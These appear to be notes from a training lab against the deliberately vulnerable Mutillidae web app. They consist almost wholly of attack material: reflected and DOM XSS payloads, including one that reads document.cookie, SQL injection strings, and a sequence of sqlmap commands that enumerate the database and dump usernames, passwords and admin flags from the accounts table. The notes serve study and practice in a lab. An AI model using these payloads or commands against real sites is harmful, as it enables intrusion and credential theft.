 


## Lab Environment
```
<h1>localhost</h1>
```

Inspect the DOM elements of the resulting page (press **CTRL+SHIFT+I**)

```
<script>alert("testing-xss")</script>
```

```
<script>alert(document.cookie)</script>
	PHPSESSID=tpp66es56i5e4hgmrbtd75vqi6; showhints=1
```

innerHTML = DOM command:
```
you";}catch(e){}alert("dom-xss-payload");try{"
```

sql injection:
```
user: '' = sql error
' or '1'='1
```
Sqlmap:
```
sqlmap -u "http://demo.ine.local/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" --cookie "PHPSESSID=gotu3qj422pmksv4ubtmjbmmo5; showhints=1" -p username
```

```
sqlmap -u "http://demo.ine.local/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" --cookie "PHPSESSID=gotu3qj422pmksv4ubtmjbmmo5; showhints=1" -p username --dbs
```

```
sqlmap -u "http://demo.ine.local/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" --cookie "PHPSESSID=gotu3qj422pmksv4ubtmjbmmo5; showhints=1" -p username --dbs -D mutillidae --tables
```

```
sqlmap -u "http://demo.ine.local/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" --cookie "PHPSESSID=gotu3qj422pmksv4ubtmjbmmo5; showhints=1" -p username --dbs -D mutillidae --tables -T accounts --columns
```

```
sqlmap -u "http://demo.ine.local/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" --cookie "PHPSESSID=gotu3qj422pmksv4ubtmjbmmo5; showhints=1" -p username --dbs -D mutillidae --tables -T accounts -C username,password,is_admin --dump
```
